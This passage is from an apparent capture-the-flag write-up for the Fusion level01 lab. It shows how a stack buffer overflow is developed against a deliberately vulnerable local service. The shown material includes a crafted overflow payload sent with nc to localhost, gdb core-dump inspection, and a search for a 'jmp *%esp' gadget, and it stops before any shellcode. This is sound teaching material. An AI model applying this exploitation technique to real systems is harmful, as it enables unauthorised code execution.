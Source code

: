So, we can't look to shared objects for code reuse, but the binary
file itself is still fair game. However, it didn't contain any
\texttt{jmp *\%esi} instructions. One alternative instruction
combination could be \texttt{push \%esi; ret}, but this isn't found
in our binary file either. After some more research, we notice
another opportunity. The stack pointer is pointing immediately
after the return pointer we are clobbering, meaning if we just
add a few bytes to our buffer after the return address, we
could possibly make use of the \texttt{esp} register.

\begin{lstlisting}
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x95\xf9\xff\xbf" + " HTTP/1.1" + "\xcc"*2' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core
[New LWP 4902]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 11, Segmentation fault.
#0  0xbffff995 in ?? ()
(gdb) i r esp
esp            0xbfe9f490       0xbfe9f490
(gdb) x/4x $esp-8
0xbfe9f488:     0x41414141      0xbffff995      0xbfe9f400      0x00000020
(gdb) 
\end{lstlisting}

Well, perhaps there's a \texttt{jmp *\%esp} instruction? we already know
we can't jump to wherever \texttt{esi} is pointing, but maybe we can
put some instructions after our return address and jump to \texttt{esp}.

\begin{lstlisting}
fusion@fusion:~$ sudo gdb -q /opt/fusion/bin/level01
Reading symbols from /opt/fusion/bin/level01...done.
(gdb) b main
Breakpoint 1 at 0x8049983: file level01/level01.c, line 40.
(gdb) r
Starting program: /opt/fusion/bin/level01 

Breakpoint 1, main (argc=1, argv=0xbf8cccf4, envp=0xbf8cccfc) at level01/level01.c:40
40      level01/level01.c: No such file or directory.
        in level01/level01.c
(gdb) find /h 0x08048000, 0x0804b000, 0xe4ff
0x8049f4f
1 pattern found.
\end{lstlisting}

Here, we load the program into memory, place a breakpoint at
main so we can pause execution once everything's loaded,
and search for a \texttt{jmp *\%esp} instruction, which assembles
to \texttt{0xff 0xe4}. Luckily, we find one! At this point, we
know the binary file itself is loaded to a static address
on each execution, so this instruction will be in the same location
on each execution. As it jumps to \texttt{esp}, which is immediately
after the clobbered return address, we have a few bytes worth of
instructions we can place to be executed. Let's try this.


